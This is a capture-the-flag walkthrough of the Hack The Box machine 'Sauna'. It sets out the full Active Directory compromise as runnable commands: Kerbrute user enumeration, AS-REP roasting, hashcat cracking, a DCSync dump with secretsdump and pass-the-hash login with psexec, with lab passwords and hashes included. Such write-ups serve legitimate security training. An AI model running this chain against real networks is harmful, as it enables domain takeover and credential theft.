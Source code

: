 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Sauna", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1583416750470-965b2707b355?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxzYXVuYXxlbnwwfHx8fDE3MDk1OTQ5MDR8MA&ixlib=rb-4.0.3&q=85
coverY: -56.01639344262295
---
```


# 🧖‍♂️ Sauna

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.175

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 20:24 -03
Nmap scan report for 10.10.10.175
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-05 06:24:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2024-03-05T06:24:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.50 seconds
```



## Enumeration

Let's try enumerating SMB first. For this. we'll use "_smbclient_" with anonymous credentials and no password:

```bash
smbclient -L \\\\10.10.10.175\\ -N
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption><p>No File Shares listed for anonymous login</p></figcaption></figure>

As we can see, there are no File Shares listed for anonymous login, so we should take another route.

On Port 80, we can see a website that displays, on the "About Us" page, the names of the people in the "Egotistical Bank" Team.



## Exploitation

We can grab these employees' names and create a list with all possible usernames for everyone on the team and try to see if any of these usernames are valid. To do this, we'll use a tool called "[_Username Anarchy_](https://github.com/urbanadventurer/username-anarchy)" tocreate a list of usernames.

First, let's create a list with all the names we found on the website.

```bash
subl employees.txt
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption><p>Egotistical Bank Employee List</p></figcaption></figure>

Now, let's use "_Username-Anarchy_" to create a list of probable usernames in the Domain:

```bash
./username-anarchy -i <path/to/employee list> > ~/htb/sauna/usernames.txt
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption><p>Username List</p></figcaption></figure>

Once we have a username list, we need to make sure which of these usernames are valid usernames in the Domain. To validate usernames on a domain, we can use a tool called "[_Kerbrute_](https://github.com/ropnop/kerbrute)":

```bash
# After downloading one of the releases designed for your specific architecture:
./kerbrute userenum -d egotistical-bank.local --dc 10.10.10.175 ~/htb/sauna/usernames.txt  
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Valid username from Kerbrute</p></figcaption></figure>

Now that we have a valid username, there are a few things we can try, one of them being an ASREPRoasting attack, which will [automatically find accounts that do not require pre-authentication, and extract their AS-REP hashes for offline cracking](https://blog.netwrix.com/2022/11/03/cracking\_ad\_password\_with\_as\_rep\_roasting/).

To perform this attack, we'll need to use one of Impacket's tools, known as "_GetNPUSers.py"_:

```bash
GetNPUsers.py egotistical-bank.local/fsmith -format hashcat -dc-ip 10.10.10.175
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>fsmith's AS-REP hash</p></figcaption></figure>

Now we can take this hash and try to crack it with "_hashcat_":

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>fsmith's password</p></figcaption></figure>

### User Flag

Now that we have a username and a password, there are a few things we can do. Generally speaking, we don't really need to get a shell on the system to compromise the Domain Controller, although, it can sometimes be useful.&#x20;

In this case, we should get a shell to be able to grab the User's flag:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

## Post Exploitation / Privilege Escalation

### Enumeration

For Post-Compromise Enumeration, we can use tools such as "_BloodHound_" or "_PlumHound_".

Let's use BloodHound in this case.

#### BloodHound

Running BloodHound's ingestor on the target:

```bash
bloodhound-python -d egotistical-bank.local -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all
```

Now we run BloodHound:

```bash
sudo neo4j console

sudo bloodhound
```

Next, we import our data into BloodHound and analyze the results:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>hsmith is a kerberoastable account</p></figcaption></figure>

Despite "_hsmith_" being a "kerberoastable" user, this account won't get us any further due to the fact it has fewer privileges than the "_fsmith_" account.

However, the SVC\_LOANMGR can perform a DCSync attack on the Domain Controller:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>DCSync Attack Capability</p></figcaption></figure>

So this user is high value if we're able to grab his credentials.

Let's go back to our shell and run winPEAS on the target to see if we can find anything interesting:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>svc_loanmanager credentials</p></figcaption></figure>

We have a plain text password for the user "_svc\_loanmgr_"



### Exploitation

Now that we have a valid set of credentials for the account svc\_loanmmgr, we can try to perform the DCSync attack we previously found this account was able to do.

To do this, we'll use "_secretsdump_":

```bash
secretsdump.py egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

This should dump all of the SAM Hashes for every user of that machine:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption><p>SAM Dump</p></figcaption></figure>

Now we just try to crack the Administrator's hash:

```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>Hashcat couldn't crack the hash</p></figcaption></figure>

As we can see, our wordlist doesn't have the password that matches this hash. So, we'll need to take a different approach.&#x20;

We can try and perform a "_Pass-The-Hash_" attack, where we don't need to provide a password to log in as the user. In this attack, instead of providing a password for login, we'll provide the Hash and still be able to login:

```bash
psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>We're system on the machine</p></figcaption></figure>



### Root Flag

Once we have system on the machine, we can simply navigate to the Administrator's desktop, where we'll find the Root Flag:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Root Flag</p></figcaption></figure>
